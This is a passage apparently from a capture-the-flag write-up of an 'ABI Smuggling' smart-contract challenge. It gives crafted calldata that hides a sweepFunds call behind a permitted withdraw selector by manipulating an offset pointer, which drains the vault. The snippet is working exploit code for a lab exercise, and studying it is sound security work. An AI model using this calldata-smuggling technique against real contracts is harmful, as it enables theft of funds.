 ![ABI Smuggling](abi-smuggling.png)

It took me a while to figure out how to properly encode the data to have the correct padding on all the values. The final `calldata` object is shown below.

```javascript
bytes4 executeFunctionSelector = AuthorizedExecutor.execute.selector; // 1cff79cd
bytes memory target = abi.encode(address(vault)); // 0000000000000000000000001240fa2a84dd9157a0e76b5cfe98b1d52268b264
bytes memory bytesOffsetPointer = abi.encodePacked(uint256(100)); // 0000000000000000000000000000000000000000000000000000000000000064
bytes32 fillerBytes; // 0000000000000000000000000000000000000000000000000000000000000000
bytes4 withdrawFunctionSelector = SelfAuthorizedVault.withdraw.selector; // d9caed12
bytes memory bytesLength = abi.encodePacked(uint256(68)); // 0000000000000000000000000000000000000000000000000000000000000044
bytes memory sweepFunction = abi.encodeWithSignature( // 85fb709d + 00000000000000000000000073030b99950fb19c6a813465e58a0bca5487fbea0000000000000000000000008ad159a275aee56fb2334dbb69036e9c7bacee9b
    "sweepFunds(address,address)",
    recovery,
    address(token)
);
bytes memory data = abi.encodePacked(
    executeFunctionSelector,
    target,
    bytesOffsetPointer,
    fillerBytes,
    withdrawFunctionSelector,
    bytesLength,
    sweepFunction
);
```
